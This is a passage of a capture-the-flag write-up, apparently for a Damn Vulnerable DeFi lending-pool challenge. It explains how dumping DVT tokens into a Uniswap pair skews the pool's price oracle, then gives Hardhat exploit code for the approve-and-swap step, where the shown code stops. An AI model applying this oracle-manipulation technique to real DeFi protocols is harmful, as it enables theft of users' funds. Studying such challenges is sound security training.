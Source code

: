 - I am using Uniswap's official utility library. Since it is an important function that determines the Oracle Price Data feed required for the actual logic, it can be seen that this logic is in a high entropy state.
- In fact, if you look at the library, you can see that it is not much different from the UniswapV1 method.
- You have to manipulate the amount of the loan deposit in the same way. By selling as many tokens as possible, you can increase DVT's deposit and reduce the amount of Ether.

# Solve

```tsx
it('Exploit', async function () {
  /** CODE YOUR EXPLOIT HERE */
  const fromWei = (x) => web3.utils.fromWei(x);
  const _curInfo = async (status) => {
      console.log("\n" + status + "\n");
      console.log("[+] Oracle Calc Deposit Required")
      let _oracle = (await this.lendingPool.calculateDepositOfWETHRequired(ethers.utils.parseEther("1")))
      console.log("=> Oracle: " + fromWei(_oracle._hex) + "\n")
      console.log("[+] Attacker ETH-DVT Pair Balance")
      let attacker_eth = await ethers.provider.getBalance(attacker.address);
      let attacker_dtv = await this.token.balanceOf(attacker.address);
      let attacker_weth = await this.weth.balanceOf(attacker.address);

      console.log("=> Attacker ETH : " + fromWei(attacker_eth._hex) + "\n");    // attacker ETH
      console.log("=> Attacker DVT : " + fromWei(attacker_dtv._hex) + "\n");  // attacker DVT
      console.log("=> Attacker WETH : " + fromWei(attacker_weth._hex) + "\n"); // attacker WETH
      console.log("[+] LendingPool ETH-DVT Pair Balance");
      let pool_eth = await ethers.provider.getBalance(this.lendingPool.address);
      let pool_dtv = await this.token.balanceOf(this.lendingPool.address);
      let pool_weth = await this.weth.balanceOf(this.lendingPool.address);
      console.log("Lending Pool ETH : " + fromWei(pool_eth._hex) + "\n");    // lendingPool ETH
      console.log("Lending Pool DVT : " + fromWei(pool_dtv._hex) + "\n");  // lendingPool DVT
      console.log("Lending Pool WETH : " + fromWei(pool_weth._hex) + "\n");  // lendingPool WETH
      console.log("[+] Uniswap Exchange ETH-DVT Pair Balance");
      let exchange_eth = await ethers.provider.getBalance(this.uniswapExchange.address);
      let exchange_dtv = await this.token.balanceOf(this.uniswapExchange.address);
      let exchange_weth = await this.weth.balanceOf(this.uniswapExchange.address);

      console.log("Uniswap Exchange ETH : " + fromWei(exchange_eth._hex) + "\n");    // exchange ETH
      console.log("Uniswap Exchange DVT : " + fromWei(exchange_dtv._hex) + "\n");  // exchange DVT
      console.log("Uniswap Exchange WETH : " + fromWei(exchange_weth._hex) + "\n");  // exchange WETH
  }
  /** CODE YOUR EXPLOIT HERE */
  
  _curInfo("Initial");

  await this.token.connect(attacker).approve(
      this.uniswapRouter.address,
      ATTACKER_INITIAL_TOKEN_BALANCE
  );

  await this.uniswapRouter.connect(attacker).swapExactTokensForETH(
      ATTACKER_INITIAL_TOKEN_BALANCE,                  // amountIn 
      0,                                               // amountOutMin 
      [this.token.address, this.uniswapRouter.WETH()], // path
      attacker.address,                                // to
      (await ethers.provider.getBlock('latest')).timestamp * 2,   // deadline
  );

```